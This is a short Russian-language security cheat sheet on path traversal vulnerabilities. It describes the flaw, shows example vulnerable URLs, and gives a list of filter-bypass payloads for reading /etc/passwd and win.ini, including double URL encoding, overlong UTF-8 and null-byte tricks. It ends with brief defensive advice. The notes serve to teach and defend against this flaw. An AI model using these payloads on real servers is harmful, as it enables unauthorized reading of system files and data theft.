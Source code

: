 ### **PATH TRAVERSAL**
* **Описание**
*	Обход пути также известен как обход каталога. Эти уязвимости позволяют злоумышленнику читать произвольные файлы на сервере, на котором запущено приложение.Уязвимости Directory Traversal появляются из-за отсутствия валидации входных данных пользователя, а также из-за отсутствия разграничения доступа приложения или функции на возможность обращаться к файловым ресурсам всего сервера.

* **Виды**

* **Точки входа**
*	<img src="/loadImage?filename=218.png">
*	https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini

* **POC**
....//
....\/
* кодирование URL-адреса или двойное кодирование URL-адреса:
	%252e%252e%252f
* нестандартные кодировки:
	..%c0%af или ..%ef%bc%8f
* начиналось с ожидаемой базовой папки:
	имя_файла=/var/www/images/../../../etc/passwd
* заканчивалось ожидаемым расширением файла:
	имя_файла=../../../etc/passwd%00.png


* **Профит**
* Чтение файлов системы
* Утечка данных
* Репутационные потери

* **Защита**
* Самый эффективный способ предотвратить уязвимости обхода пути — вообще избегать передачи вводимых пользователем данных в API файловой системы. Многие функции приложения, которые делают это, можно переписать, чтобы обеспечить то же поведение более безопасным способом.
* Белый список
* Только буквы и символы
